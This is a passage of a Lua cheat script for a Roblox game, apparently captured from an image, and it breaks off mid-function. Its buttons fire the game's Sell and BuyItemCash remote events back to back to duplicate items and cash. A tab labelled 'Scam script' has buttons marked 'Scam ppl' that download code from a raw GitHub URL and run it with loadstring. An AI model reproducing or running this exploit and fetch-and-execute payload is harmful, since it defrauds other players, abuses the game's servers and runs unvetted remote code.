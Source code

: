 		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	Section:NewButton("Dupe Spidy", "Buy item dupe cash", function()
		local args = {
			[1] = "Spidy"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
		local args = {
			[1] = "Spidy"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	Section:NewButton("Dupe Tulsa Rainbow", "Buy item dupe cash", function()
		local args = {
			[1] = "Tulsa rainbow"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.Sell:FireServer(unpack(args))
		local args = {
			[1] = "Tulsa rainbow"
		}

		game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
	end)
	local Tab     = Window:NewTab("Scam script")
	local Section = Tab:NewSection("scam working !!")
	Section:NewButton("Scam 1V", "Scam ppl", function()
		loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
	end)
	Section:NewButton("Scam 2V", "Scam ppl", function()